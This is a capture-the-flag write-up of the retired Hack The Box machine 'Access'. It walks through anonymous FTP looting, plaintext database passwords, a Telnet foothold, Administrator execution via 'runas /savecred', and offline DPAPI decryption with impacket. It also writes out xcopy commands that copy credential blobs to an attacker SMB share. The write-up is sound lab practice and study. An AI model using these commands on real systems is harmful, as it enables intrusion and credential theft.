

<p align="center">
  
</p>

# access - hack the box

**platform:** Hack The Box · retired machine  
**os:** Windows Server 2008 R2 Standard, x64 (build 7600)  
**outcome:** User foothold, user flag, elevated local Administrator execution and Administrator-level objective  
**focus:** FTP troubleshooting · Microsoft Access database inspection · encrypted ZIP / PST · Telnet · Windows Credential Manager

---

## `00 / overview`

`Access` was an easy box that I chose as my first portfolio write-up and as a warm-up for my CPTS preparation. It was quite outdated, running Windows Server 2008 R2 with telnet still enabled.

### prep

after completing the box, I started tightening up my engagement workflow with tmux logging and fish environment variables. I also settled on a directory structure I wanted to keep using. I also configured pass as a gpg protected credential store.

**directory structure:**

```shell
Access/
├── env.fish          
├── scans/                
├── loot/                 
├── notes/                
├── screenshots/          
└── report/
```

**fish and tmux environment variables**

tmux is configured to save logs to the engagement folder based on an environment variable, and fails closed if the directory isn't set. new panes inherit the session environment.

```shell
# New logging destination
set -gx ENGAGEMENT_DIR (pwd -P)

# Engagement configuration
set -gx ENGAGEMENT "Access"
set -gx IP "<TARGET_IP>"

# Copy to tmux session
if set -q TMUX
	set -l session (tmux display-message -p '#S')

	tmux set-environment -t "$session" ENGAGEMENT_DIR "$ENGAGEMENT_DIR"
	tmux set-environment -t "$session" ENGAGEMENT "$ENGAGEMENT"
	tmux set-environment -t "$session" IP "$IP"
end
```

```fish
# From the Access directory:
source ./env.fish
ip route get $IP
```


---

## `01 / recon`

### service discovery

launched the standard nmap port and service scan. FTP, Telnet and a webserver were present. Decided FTP would be the priority, looking for possible credentials that could then be leveraged via telnet.

```fish
nmap -sVC -oA scans/initial $IP
```

**selected scan output from my notes:**

```text
21/tcp open ftp Microsoft ftpd
ftp-anon: Anonymous FTP login allowed (230)
Can't get directory listing: PASV failed: 425 Cannot open data connection
```

|   port | service           | observation                                             |
| -----: | ----------------- | ------------------------------------------------------- |
| 21/tcp | Microsoft FTP     | Anonymous login allowed; passive data connection failed |
| 23/tcp | Microsoft Telnet  | Interactive login service                               |
| 80/tcp | Microsoft IIS 7.5 | MegaCorp web page                                       |

### ftp 

connected to the ftp server to investigate. was able to use anonymous login exposing two directories, `Backups` & `Engineer`. 

```console
$ ftp $IP
220 Microsoft FTP Service
Name: anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
...
```

```text
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
```

I downloaded two files: `backup.mdb` & `Access Control.zip`.

```text
ftp> get "Engineer\Access Control.zip"
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.

ftp> binary
200 Type set to I.
ftp> get "Engineer\Access Control.zip"
226 Transfer complete.
10870 bytes received.

ftp> cd Backups
250 CWD command successful.
ftp> get backup.mdb
226 Transfer complete.
5652480 bytes received.
```


---

## `02 / artifact analysis`

### database

`file` identified the backup as a Microsoft Access database, and the zip as an encrypted archive. I used mdb-tools to look through the database. `auth_user` stood out. 

```console
❯ file -- *
Access Control.zip: Zip archive data, made by v2.0, extract using at least v2.0, ... method=AES Encrypted
backup.mdb:         Microsoft Access Database

❯ mdb-tables -1 backup.mdb
acc_antiback
acc_door
...
auth_user
auth_user_groups
...
SECURITYDETAILS
...
USERINFO
```

`auth_user` included usernames, passwords and role information. There were three records in that table. The passwords were stored in plaintext, including an engineer account.

```console
❯ mdb-schema -T auth_user backup.mdb

CREATE TABLE [auth_user]
 (
    [id]           Long Integer,
    [username]     Text (50),
    [password]     Text (50),
    [Status]       Long Integer,
    [last_login]   DateTime,
    [RoleID]       Long Integer,
    [Remark]       Memo/Hyperlink (255)
 );
```

```console
❯ mdb-count backup.mdb auth_user
3
❯ mdb-count backup.mdb SECURITYDETAILS
0
❯ mdb-count backup.mdb USERINFO
5

❯ mdb-export backup.mdb auth_user | head -n 1
id,username,password,Status,last_login,RoleID,Remark
```

### encrypted archive and outlook mailbox

the zip contained an Outlook PST file, `unzip` couldn't extract it because of the AES encryption. I switched to 7z, tested the creds from the database, and  extracted the archive.

```console
❯ 7z l -slt Access\ Control.zip
Path = Access Control.pst
Size = 271360
Packed Size = 10678
Encrypted = +
Method = AES-256 Deflate:Maximum

❯ unzip Access\ Control.zip
Archive:  Access Control.zip
   skipping: Access Control.pst      unsupported compression method 99

❯ 7z t Access\ Control.zip
Enter password (will not be echoed):
Everything is Ok
Size:       271360
Compressed: 10870
```

I initially ended up with a zero byte PST file, so I re-extracted into a separate directory. I used `readpst` to convert it into a mailbox I could read.

```console
❯ 7z x Access\ Control.zip -opst_extracted/
Enter password (will not be echoed):
Everything is Ok

❯ file 'Access Control.pst'
Access Control.pst: Microsoft Outlook Personal Storage (>=2003, Unicode, version 23), ... 271360 bytes

❯ readpst -r -o ../pst_mail 'Access Control.pst'
Opening PST file and indexes...
Processing Folder "Deleted Items"
    "Access Control" - 2 items done, 0 items skipped.

❯ file mbox
mbox: Mailbox text, 1st line "From "john@megacorp.com" Thu Aug 23 19:44:07 2018"
```

the mailbox included a message about a `security` account, a likely set of creds for telnet.

```text
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
Date: Thu, 23 Aug 2018 23:44:07 +0000

[message body and password redacted]
```


---

## `03 / initial access`

telnet accepted the creds and dropped me into cmd prompt. confirmed the account and checked its group memberships and privileges.

```console
❯ telnet $IP 23
Connected to [HTB_TARGET_IP].
Welcome to Microsoft Telnet Service

login: security
password: [REDACTED]

C:\Users\security>whoami
access\security
```

```cmd
C:\Users\security>whoami /priv

Privilege Name                Description                     State
SeChangeNotifyPrivilege       Bypass traverse checking        Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```text
ACCESS\TelnetClients
BUILTIN\Users
Mandatory Label\Medium Mandatory Level
```

obtained the user flag.


---

## `04 / privilege escalation`

### local enumeration

ran `systeminfo` and the usual account and privilege checks. host was running Windows Server 2008 R2 Standard, build 7600. 

```cmd
C:\Users\security>systeminfo
Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Configuration:          Standalone Server
System Type:               x64-based PC

C:\Users\security>wmic product get name,version
This program is blocked by group policy. For more information, contact your system administrator.
```

eventually checked stored credentials with `cmdkey /list`. It showed a saved credential for `ACCESS\Administrator`.

```cmd
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

### saved credentials and runas

`cmdkey` doesn't reveal the password itself, just that Windows has a credential stored for that account. The `/savecred` option with `runas` allows Windows to reuse credentials already saved by the current user. In this case that meant I could start a new process as Administrator without knowing the password.

I didn't need a reverse shell for this box. Instead I used `runas` to write the results of `whoami` into files that my `security` session could read. The Telnet shell stayed as `security`; it was the new process that ran under the Administrator account.

```cmd
C:\Users\security>runas /savecred /user:ACCESS\Administrator "cmd /c whoami > C:\Users\security\Documents\admin-check.txt"

C:\Users\security>dir Documents
11/12/2026  06:01 PM                22 admin-check.txt

C:\Users\security>runas /savecred /user:ACCESS\Administrator "cmd /c whoami /all >c:\users\security\documents\admin-token.txt"

C:\Users\security\Documents>type admin-token.txt
```

```text
USER INFORMATION
User Name            SID
access\administrator S-1-5-21-[HOST_SID_REDACTED]-500

GROUP INFORMATION
BUILTIN\Administrators                 Enabled group
Mandatory Label\High Mandatory Level   Enabled group
```

the token showed RID 500, enabled membership in the Administrators group, and high integrity. That confirmed the new process was executing with the Administrator context.

I used the same method to check the Administrator Desktop and reach the root-level objective.

```cmd
C:\Users\security\Documents>runas /savecred /user:ACCESS\Administrator "cmd /c dir C:\Users\Administrator\Desktop > C:\Users\Security\Documents\admin-desktop.txt"

C:\Users\security\Documents>type admin-desktop.txt
```

```text
Directory of C:\Users\Administrator\Desktop
11/12/2026  12:50 AM                34 root.txt
```

---

## `05 / postscript - dpapi practice`

came back to Access after completing the box to practice the DPAPI part of the walkthrough. I used `runas /savecred` for the original escalation, which was enough to get Administrator execution without recovering the password. this time I want to see how Windows actually stores that saved credential and try decrypting it offline.

### finding the encrypted files

Windows Credential Manager stores encrypted credential blobs under the user's profile. DPAPI uses master keys to protect them, and the master keys are protected using material derived from the user's logon secret. since I already have the `security` account creds, I can practice the other route instead of relying on `runas`.

```cmd
C:\Users\security>whoami /user
C:\Users\security>dir /a "%APPDATA%\Microsoft\Credentials"
C:\Users\security>dir /a "%APPDATA%\Microsoft\Protect"
```

the `security` profile had one encrypted blob under `Microsoft\Credentials`. the Protect directory contained `CREDHIST` and a folder named for the user's SID.

```cmd
C:\Users\security>dir /a "%APPDATA%\Microsoft\Credentials"
Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials

08/22/2018  09:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
               1 File(s)            538 bytes

C:\Users\security>dir /a "%APPDATA%\MICROSOFT\Protect"
Directory of C:\Users\security\AppData\Roaming\MICROSOFT\Protect

08/22/2018  09:18 PM                24 CREDHIST
08/22/2018  09:18 PM    <DIR>          S-1-5-21-[SID_REDACTED]-1001
```


```cmd
C:\Users\security>dir /a "%APPDATA%\Microsoft\Protect\S-1-5-21-[SID_REDACTED]-1001"

08/22/2018  09:18 PM               468 0792c32e-48a5-4fe3-8b43-d93d64590580
08/22/2018  09:18 PM                24 Preferred
               2 File(s)            492 bytes
```

### copying the files to Kali

I used a temporary SMB share on Kali to move the encrypted credential and master key out of the Windows profile. normal `copy` initially couldn't read the files, but `xcopy /H` worked. both copied files matched the expected sizes, so I could continue with offline inspection.

```cmd
C:\Users\security>xcopy /H /Y "%APPDATA%\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290" "\\10.10.14.6\DPAPI\credential.blob"
1 File(s) copied

C:\Users\security>xcopy /H /Y "%APPDATA%\Microsoft\Protect\S-1-5-21-[SID_REDACTED]-1001\0792c32e-48a5-4fe3-8b43-d93d64590580" "\\10.10.14.6\DPAPI\masterkey.blob"
1 File(s) copied
```

```console
❯ ls -l dpapi/
-rwxrwxr-x 1 kali kali 538 Aug 22  2018 credential.blob
-rwxrwxr-x 1 kali kali 468 Aug 22  2018 masterkey.blob
```


### offline decryption

I copied the encrypted credential file and matching master key to Kali, and used impacket to analyze them. the blob identified the master key GUID, and the `security` user's SID and password unlocked that key. with the decrypted master key, I could open the saved Administrator credential.

```bash
# Analyze the encrypted credential after copying it into private local loot
impacket-dpapi credential -file <CREDENTIAL_BLOB>

# Decrypt the matching master key with the security user's SID
# Supply the lab account password only when required; never put it in Git
impacket-dpapi masterkey -file <MASTERKEY_FILE> -sid <SECURITY_USER_SID>

# Once the master key has actually been recovered:
impacket-dpapi credential -file <CREDENTIAL_BLOB> -key <DECRYPTED_MASTER_KEY>
```

the credential blob referenced the same master key GUID as the file I collected. 

```console
❯ chmod 600 dpapi/*.blob
❯ impacket-dpapi credential -file dpapi/credential.blob
[BLOB]
Version          : 1 (1)
Guid MasterKey   : 0792C32E-48A5-4FE3-8B43-D93D64590580
Description      : Enterprise Credential Data
CryptAlgo        : 00006610 (26128) (CALG_AES_256)
HashAlgo         : 0000800e (32782) (CALG_SHA_512)

Cannot decrypt (specify -key or -sid whenever applicable)
```

the user password worked and impacket decrypted the master key using the user key.

```console
❯ impacket-dpapi masterkey -file dpapi/masterkey.blob -sid S-1-5-21-[SID_REDACTED]-1001
[MASTERKEYFILE]
Version     : 2 (2)
Guid        : 0792c32e-48a5-4fe3-8b43-d93d64590580
Flags       : 5 (5)
MasterKeyLen: 000000b0 (176)
BackupKeyLen: 00000090 (144)

Password:
Decrypted key with User Key (SHA1)
Decrypted key: [REDACTED]
```

after unlocking the master key, I used it to decrypt the credential blob. impacket returned an `ACCESS\Administrator` record with the saved password. 

```console
❯ impacket-dpapi credential -file dpapi/credential.blob -key [DECRYPTED_KEY_REDACTED] > dpapi/decrypted.txt 2>&1

❯ cat dpapi/decrypted.txt
[CREDENTIAL]
LastWritten : 2018-08-22 21:18:49+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:interactive=ACCESS\Administrator
Username    : ACCESS\Administrator
Unknown     : [PASSWORD REDACTED]
```


```fish
# Access/loot/dpapi
chmod 600 decrypted.txt
```


---

<sub>nu11s3c // retired lab; no flags, reusable credentials, or original loot published.</sub>
